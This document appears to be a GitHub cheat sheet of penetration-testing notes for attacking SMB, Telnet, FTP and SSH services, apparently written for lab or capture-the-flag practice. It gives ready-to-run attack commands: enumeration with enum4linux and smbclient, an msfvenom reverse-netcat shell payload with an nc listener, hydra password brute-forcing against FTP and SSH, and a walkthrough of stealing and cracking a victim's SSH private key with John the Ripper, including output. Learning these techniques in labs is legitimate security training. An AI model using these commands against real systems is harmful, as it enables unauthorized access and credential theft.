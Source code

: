 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    nmap 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  

## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploiting Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

The FTP server may support either Active or Passive connections, or both.  
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.   

### Exploiting FTP
#### hydra
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`  
`hydra` Runs the hydra tool  
`-t 4`  Number of parallel connections per target    
`-l [user]` Points to the user who's account you're trying to compromise  
`-P [path to dictionary]`   Points to the file containing the list of possible passwords  
`-vV`   Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
`[machine IP]`  The IP address of the target machine  
`ftp / protocol`    Sets the protocol  

## SSH
### Exploiting SSH
#### Crack SSH Password with hydra  
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ssh`  

#### Crack SSH Private Key with John the Ripper
SSH Key-Based Autherntication
1. RSA-Private-key is in .ssh derectory. (id_rsa)
```
victim@target:~/.ssh$ ls -la

total 16
drwx------ 2 nullbyte nullbyte 4096 2019-06-19 13:49 .
drwxr-xr-x 3 nullbyte nullbyte 4096 2019-06-19 13:46 ..
-rw------- 1 nullbyte nullbyte 1743 2019-06-19 13:49 id_rsa
-rw-r--r-- 1 nullbyte nullbyte  405 2019-06-19 13:49 id_rsa.pub
```  
2. `cat id_rsa` and copy, `nano victim_rsa` and paste.
3. Crack the Private Key.  
    `$ python3 /usr/share/john/ssh2john.py victim_rsa > rsa.hash`  
    `$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash`
    <detail>
    ```
    $ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    beeswax          (id_rsa)
    1g 0:00:00:00 DONE (2023-07-27 15:52) 16.66g/s 1378Kp/s 1378Kc/s 1378KC/s beeswax
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    </detail>  
    `$ john --show rsa.hash`  
4. SSH into the Target.
    `$ chmod 600 victim_rsa`  
    `$ ssh -i victim_rsa victim@<TARGET_IP>`  
    Enter passphrase. (in this case "beeswax")  






